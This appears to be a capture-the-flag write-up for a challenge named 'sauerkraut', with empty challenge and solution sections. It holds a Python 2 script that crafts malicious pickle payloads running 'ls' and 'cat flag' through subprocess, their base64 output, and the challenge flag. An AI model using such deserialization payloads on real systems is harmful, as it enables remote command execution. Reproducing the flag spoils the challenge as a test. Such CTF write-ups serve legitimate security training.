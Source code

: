 # sauerkraut

## Challenge

## Solution

## Exploit

```py
#!/usr/bin/env python2

import cPickle
import subprocess
import base64

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, ('ls', ))

print "ls:"
print base64.b64encode(cPickle.dumps(Exploit()))

print ""

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, (['cat','flag'], ))

print "cat flag:"
print base64.b64encode(cPickle.dumps(Exploit()))
```

```
ls:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCihTJ2xzJwpwMgp0cDMKUnA0Ci4=

cat flag:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigobHAyClMnY2F0JwpwMwphUydmbGFnJwpwNAphdFJwNQou
```

## Flag

`SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}`

